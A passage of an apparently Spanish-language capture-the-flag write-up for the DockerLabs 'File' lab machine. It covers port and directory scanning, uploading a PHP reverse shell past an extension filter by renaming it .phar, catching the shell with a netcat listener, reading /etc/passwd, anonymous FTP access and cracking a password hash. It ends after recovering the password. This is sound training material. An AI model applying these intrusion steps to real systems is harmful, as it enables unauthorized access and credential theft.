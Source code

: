 ```yaml
---
title: File - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Scuffito y Jul3n-dot        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/ac81372b-3893-4be5-8eca-d67f44a905db)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
- `21` (FTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80,21 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/3898b7f0-cd9f-44f3-9213-c154b2f05f97)

# Exploración Web
Al navegar al puerto `80`, descubrimos la pagina por defectod de `Apache`.

![image](https://github.com/user-attachments/assets/800b8312-4680-460e-bd13-d8fa1145701d)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Encontramos dos rutas importantes `/uploads`, por lo que supones que lo que metamos de guardara ahi, y `file_upload.php` la cual es un sistema de subida de archivos.

# Reverse Shell

Creamos el archivo `shell.php` para que sea una reverse shell utilizando la herramienta [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para crear una shell en PHP. 

![image](https://github.com/user-attachments/assets/b16af5b4-be2a-4dd1-a17e-6e665f1c1d52)

Parece que hubo un problema al subirlo con la extension `.php`.

![image](https://github.com/user-attachments/assets/bb69b348-4e1a-4fa8-b4d8-29059b8cb598)

Vamos a porbar con `.phar`y parece que si hubo exito.

![image](https://github.com/user-attachments/assets/3e36f63a-191f-460b-a079-5790078e25f7)


Ahora si entramos en `/uploads` veremos el archivo creado solo quedaria abrirlo.

![image](https://github.com/user-attachments/assets/eafa19b0-2e03-4ab5-94c2-ad2541f9404b)


Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/6d96579e-644b-473e-b3a6-d73b32df1140)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

Haciendo un poco de enumeracion vemos que estos son todos los usuarios que tenemos dentro.

```bash
cat /etc/passwd
```
![image](https://github.com/user-attachments/assets/be78cd35-c78f-4f84-b355-788a8b0fe579)

Para hacer todo esto mucho mas rapido usaremos `linpeas`.

No vemos nada interesante a primera vista, por lo que usaremos el servidor de ftp que tenia usuario anonymous (explica porque es vulnerable ese usuario).

Accedemos al servidor ftp con el usuario `Anonymous`.

```bash
ftp 172.17.0.2
```

![image](https://github.com/user-attachments/assets/4e49ccc4-7aaf-4473-b36b-3efb46c5b74d)


Vemos que hay un archivo llamado anon.txt , lo descargamos y vemos su contenido.

![image](https://github.com/user-attachments/assets/1dc97a2a-4c10-4059-bae7-779c2a1925f2)

A simple vista no sabemos que es, pero si lo metemos en la pagina de [CrackStation](https://crackstation.net/), podemos ver que es un hash de una contraseña la cual es: `justin`.





